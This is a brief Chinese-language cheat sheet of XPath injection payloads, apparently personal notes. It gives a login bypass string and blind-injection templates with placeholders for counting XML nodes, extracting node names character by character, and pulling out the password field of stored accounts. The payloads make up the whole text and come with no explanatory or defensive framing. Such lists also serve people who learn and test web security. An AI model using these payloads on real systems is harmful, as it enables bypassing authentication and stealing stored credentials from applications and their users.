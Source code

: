 - ## XPATH 注入
- ```xpath
  admin' or 1=1 or '
  ```
  
  爆节点数
  
  ```xpath
  admin' or count(/*)>{} or '
  ```
  
  爆节点名
  
  ```xpath
  admin' or substring(name(/*),{},1)='{}' or '
  admin' or substring(name(/root/accounts/*[position()=1]),{},1)='{}' or '
  ```
  
  爆内容
  
  ```xpath
  admin' or substring(/root/accounts/*[position()=2]/password/text(),{},1)='{}' or '
  ```